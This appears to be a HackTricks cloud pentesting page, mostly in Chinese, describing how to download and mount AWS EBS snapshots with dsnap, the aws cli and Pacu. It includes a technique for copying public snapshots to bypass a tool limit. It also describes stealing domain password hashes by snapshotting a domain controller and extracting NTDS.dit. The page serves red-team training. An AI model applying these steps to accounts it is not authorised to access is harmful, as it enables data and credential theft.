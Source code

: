 # AWS - EBS Snapshot Dump

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 本地检查快照
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**注意** `dsnap` 不允许您下载公共快照。要绕过此限制，您可以在您的个人账户中复制快照，然后下载该快照：
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

有关此技术的更多信息，请查看原始研究 [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

您可以使用 Pacu 的模块 [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) 来执行此操作

## 在 AWS 中检查快照

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**在您控制的 EC2 虚拟机中挂载它**（它必须与备份的副本位于同一区域）：

步骤 1：通过前往 EC2 –> 卷，创建一个您所需大小和类型的新卷。

要执行此操作，请遵循以下命令：

* 创建一个 EBS 卷以附加到 EC2 实例。
* 确保 EBS 卷和实例位于同一区域。

步骤 2：通过右键单击创建的卷，选择“附加卷”选项。

步骤 3：从实例文本框中选择实例。

要执行此操作，请使用以下命令：

* 附加 EBS 卷。

步骤 4：登录到 EC2 实例，并使用命令 `lsblk` 列出可用磁盘。

步骤 5：使用命令 `sudo file -s /dev/xvdf` 检查卷是否有任何数据。

如果上述命令的输出显示 "/dev/xvdf: data"，则表示卷是空的。

步骤 6：使用命令 `sudo mkfs -t ext4 /dev/xvdf` 将卷格式化为 ext4 文件系统。或者，您也可以使用命令 `sudo mkfs -t xfs /dev/xvdf` 使用 xfs 格式。请注意，您应该使用 ext4 或 xfs 中的任意一种。

步骤 7：创建一个您选择的目录以挂载新的 ext4 卷。例如，您可以使用名称 "newvolume"。

要执行此操作，请使用命令 `sudo mkdir /newvolume`。

步骤 8：使用命令 `sudo mount /dev/xvdf /newvolume/` 将卷挂载到 "newvolume" 目录。

步骤 9：切换到 "newvolume" 目录并检查磁盘空间以验证卷挂载。

要执行此操作，请使用以下命令：

* 切换到 `/newvolume`。
* 使用命令 `df -h .` 检查磁盘空间。此命令的输出应显示 "newvolume" 目录中的可用空间。

您可以使用 Pacu 通过模块 `ebs__explore_snapshots` 来完成此操作。

## 在 AWS 中检查快照（使用 cli）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

任何拥有 **`EC2:CreateSnapshot`** 权限的 AWS 用户都可以通过创建 **域控制器的快照** 来窃取所有域用户的哈希值，将其挂载到他们控制的实例上，并 **导出 NTDS.dit 和 SYSTEM** 注册表蜂巢文件，以便与 Impacket 的 secretsdump 项目一起使用。

您可以使用此工具来自动化攻击：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 或者在创建快照后使用之前的技术之一。

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
